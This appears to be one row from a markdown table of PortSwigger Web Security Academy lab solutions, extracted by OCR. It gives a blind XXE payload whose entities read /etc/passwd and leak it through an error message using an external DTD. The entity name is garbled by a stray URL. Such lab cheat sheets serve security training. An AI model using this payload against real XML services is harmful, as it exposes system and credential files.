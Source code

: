 |72    |Exploiting blind XXE to retrieve data via error messages                                                                 |<!ENTITY % file SYSTEM "file:///etc/passwd"> <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>"> %eval; %exfil;  <!DOCTYPE foo [<!ENTITY % https://portswigger.net/web-security/xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |Error message will have the contents of the /etc/passwd file                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |Practitioner, XXE                           |